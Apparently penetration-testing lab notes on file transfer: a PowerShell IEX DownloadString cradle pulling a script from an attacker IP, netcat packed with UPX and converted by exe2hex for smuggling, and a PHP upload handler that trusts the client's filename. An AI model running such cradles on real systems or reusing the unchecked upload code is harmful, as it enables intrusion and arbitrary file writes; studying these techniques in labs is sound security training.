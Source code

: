 On Kali

```
 kali@kali:/var/www/html$ sudo cat helloworld.ps1 
 Write-Output "Hello World"
```

On Windows

```
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1') 
Hello World
```

# exe2hex

```
kali@kali:~$ locate nc.exe | grep binaries /usr/share/windows-resources/binaries/nc.exe
kali@kali:~$ cp /usr/share/windows-resources/binaries/nc.exe .
kali@kali:~$ ls -lh nc.exe
-rwxr-xr-x 1 kali kali 58K Sep 18 14:22 nc.exe

kali@kali:~$ upx -9 nc.exe
Ultimate Packer for eXecutables
Copyright (C) 1996 - 2018
UPX 3.95 Markus Oberhumer, Laszlo Molnar & John Reiser Aug 26th 2018
File size Ratio Format Name -------------------- ------ ----------- -----------
59392 -> 29696 50.00% win32/pe nc.exe Packed 1 file.
kali@kali:~$ ls -lh nc.exe
-rwxr-xr-x 1 kali kali 29K Sep 18 14:22 nc.exe


kali@kali:~$ exe2hex -x nc.exe -p nc.cmd 
[*] exe2hex v1.5.1
[+] Successfully wrote (PoSh) nc.cmd


```


# File upload to kali using PHP

Upload.php

```
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile) ?>
```
